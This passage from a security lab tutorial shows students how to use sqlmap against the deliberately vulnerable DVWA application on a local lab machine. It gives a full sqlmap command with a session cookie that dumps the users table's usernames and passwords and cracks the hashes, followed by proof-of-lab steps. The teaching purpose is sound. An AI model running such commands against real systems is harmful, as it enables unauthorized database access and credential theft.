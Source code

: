    * **Notes\(FYI\):**  
     1. Notice that there are both a user and password columns in the dvwa.users table.

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.94.jpg)

5. Obtain Users and their Passwords from table dvwa.users \(Part 1\)

   * **Notes\(FYI\):**
     1. Obtain the referer link from \(Section 9, Step 10\), which is placed after the "-u" flag below.
     2. Obtain the cookie line from \(Section 9, Step 10\), which is placed after the "--cookie" flag below.
     3. Replace 192.168.1.106 with Fedora's IP address obtained in \(Section 3, Step 3\).
     4. Replace \( **lpb5g4uss9kp70p8jccjeks621 **\) with your PHPSESSID obtained from \(Section 9, Step 10\).
   * **Instructions:**  
     1. ./sqlmap.py -u "http:// **192.168.1.106 **/dvwa/vulnerabilities/sqli/?id=1 & Submit=Submit" --cookie="PHPSESSID= **lpb5g4uss9kp70p8jccjeks621 **; security=low" -D dvwa -T users -C user,password --dump

     * -u, Target URL
     * --cookie, HTTP Cookie header
     * -D, Specify Database
     * -C, List user and password columns
     * --dump, Dump table contents

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.95.jpg)

6. Obtain Users and their Passwords from table dvwa.users \(Part 2\)

   * **Instructions:**  
     1. Do you want to use the LIKE operator? Y  
     2. Recognize possible HASH values? Y  
     3. What's the dictionary location? &lt;Press Enter&gt;  
     4. Use common password suffixes? y

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.96.jpg)

7. Review Results: Users and their Passwords from table dvwa.users

   * **Notes\(FYI\):**  
     1. Notice how sqlmap nicely displays passwords for each user.

   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.97.jpg)

| **Section 14: Proof of Lab Using John the Ripper** |
| :--- |


1. Proof of Lab
   * **Instructions:**
     1. Bring up a new terminal, see \(Section 7, Step 1\)
     2. cd /pentest/database/sqlmap
     3. find output/\* -print \| xargs ls -l
     4. date
     5. echo "Your Name"
        * Replace the string "Your Name" with your actual name.
        * e.g., echo "John Gray"
   * **Proof of Lab Instructions**
     **:**
     1. Do a  &lt; PrtScn &gt;
     2. Paste into a word document
     3. Upload to Moodle
   * ![](http://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson7/index.102.jpg)




